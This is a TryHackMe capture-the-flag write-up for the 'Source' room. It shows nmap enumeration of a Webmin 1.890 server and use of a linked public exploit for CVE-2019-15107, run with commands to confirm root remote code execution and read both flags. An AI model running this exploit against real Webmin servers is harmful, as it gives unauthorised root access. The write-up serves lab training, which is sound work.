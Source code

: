 # Source
**Date:** March 13th 2022

**Author:** j.info

**Link:** [**Source**](https://tryhackme.com/room/source) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>

![](images/source0.png)

<br>

## Objectives
- user.txt flag
- root.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -A -T4 10.10.106.247`

```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

<br>

### Gobuster Scan

No gobuster scan is required for this CTF.

<br>

## Website Digging

Visiting the main page:

![](images/source1.png)

<br>

## CVE-2019-15107

I do a quick search for **webmin exploit** and it looks like there is an RCE effecting Webmin <=1.920 under **CVE-2019-15107**. Since this server is running Webmin version 1.890 we can try this CVE and see if it works for us. 

I find a python script for this CVE on github [**here**](https://raw.githubusercontent.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/master/webmin-1.890_exploit.py).

Looking at the script it exploits a command injection vulnerability in the **password_change.cgi** file. I test it out by running:

`python3 webmin-1.890_exploit.py 10.10.106.247 10000 "which nc"`

```html
--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ / 
 ___/ // / / ___ |_/ // /|  /  
/____//_/ /_/  |_/___/_/ |_/   
                                       
--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
/bin/nc
</p>
```

It's working, we have RCE on the box.

Let's see which user Webmin is running under:

`python3 webmin-1.890_exploit.py 10.10.106.247 10000 "id"`

```html
--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ / 
 ___/ // / / ___ |_/ // /|  /  
/____//_/ /_/  |_/___/_/ |_/   
                                       
--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
</p>
```

Well, it looks like we're running as root! We can likely get a reverse shell back at this point since nc was there, but I don't even think we need to do that since we should just be able to cat the 2 flags using this script.

I run the script with **ls /home** and see that we have 1 user on the system named **dark**. Listing files in **/home/dark** shows us that the **user.txt** flag is there.

I run the script with **cat /home/dark/user.txt** and get back the user flag.

```
THM{SUPPLY_CHAIN_COMPROMISE}
```

I then run the script with **cat /root/root.txt** and get back the root flag.

```
THM{UPDATE_YOUR_INSTALL}
```

<br>

And with that we've completed this CTF! This was definitely a short one.

![](images/source2.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap**
- Using **CVE-2019-15107** against a vulnerable **Webmin** server

<br>

Many thanks to:
- [**DarkStar7471**](https://tryhackme.com/p/DarkStar7471) for creating this CTF
- **TryHackMe** for hosting this CTF.

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
